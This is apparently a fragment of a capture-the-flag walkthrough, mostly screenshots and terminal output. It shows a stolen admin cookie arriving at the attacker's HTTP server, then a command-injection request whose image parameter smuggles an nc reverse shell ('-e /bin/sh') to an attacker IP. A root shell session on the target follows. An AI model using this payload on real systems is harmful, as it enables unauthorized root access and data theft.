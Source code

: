 ```bash
:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
xx.xxx.xxx.xx - - [15/Sep/2025 xx:xx:xx] code 404, message File not found
xx.xxx.xxx.xx - - [15/Sep/2025 xx:xx:xx] "GET /login=hayley_is_admin HTTP/1.1" 404 -
```


<img width="941" height="133" alt="image" src="https://github.com/user-attachments/assets/24e07d97-c835-4018-83a2-0196a54b3a2c" />

<br>
<br>


<img width="1047" height="215" alt="image" src="https://github.com/user-attachments/assets/5b85ea23-ad43-4adb-a835-c73288daba85" />

<br>
<br>


<img width="1057" height="462" alt="image" src="https://github.com/user-attachments/assets/e3c852ea-7a80-4049-8199-7ad426b8cc28" />


<br>
<br>

```bash
GET /photos?image=image=.;nc${IFS}xx.xxx.xx.xx{IFS}9001${IFS}-e${IFS}/bin/sh HTTP/1.1
Host: xx.xxx.xxx.xx:8080
Cookie: login=hayley_is_admin
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

```bash
:~# nc -nlvp 9001
Listening on 0.0.0.0 9001
Connection received on xx.xxx.xxx.xx 42125
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
which python3
ls
Dockerfile
app.py
cert.pem
key.pem
requirements.txt
start.sh
static
stop.sh
templates
cd /home/zac
ls
notes
cat notes
ls -lah
```